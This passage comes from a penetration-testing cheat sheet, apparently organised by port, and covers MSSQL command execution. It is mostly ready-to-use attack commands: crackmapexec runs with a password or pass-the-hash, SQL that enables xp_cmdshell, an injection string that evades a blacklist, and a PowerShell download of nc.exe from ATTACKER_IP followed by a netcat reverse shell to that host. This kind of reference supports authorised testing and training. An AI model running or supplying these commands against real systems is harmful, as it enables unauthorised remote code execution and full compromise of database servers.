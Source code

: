 References:
- [PentestMonkey MSSQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

### 4.14.3. MSSQL Command Execution

Simple command execution:

```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
```

Using interactive session:

```sql
-- Check if you have server admin rights to enable command execution:
SELECT IS_SRVROLEMEMBER('sysadmin');
go

-- Check if already enabled
-- check if xp_cmdshell is enabled
SELECT CONVERT(INT, ISNULL(value, value_in_use)) AS CMDSHELL_ENABLED FROM sys.configurations WHERE name = N'xp_cmdshell';
go

-- turn on advanced options; needed to configure xp_cmdshell
sp_configure 'show advanced options', 1;RECONFIGURE;
go

-- enable xp_cmdshell
sp_configure 'xp_cmdshell', 1;RECONFIGURE;
go

-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami';
go;
-- can usually abbreviate to `xp_cmdshell "command"`

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'whoami' —

-- Get netcat reverse shell
xp_cmdshell 'powershell iwr -uri http://ATTACKER_IP/nc.exe -out c:\users\public\nc.exe'
go
xp_cmdshell 'c:\users\public\nc.exe -e cmd ATTACKER_IP 443'
go
```

## 4.15. 2049 - NFS
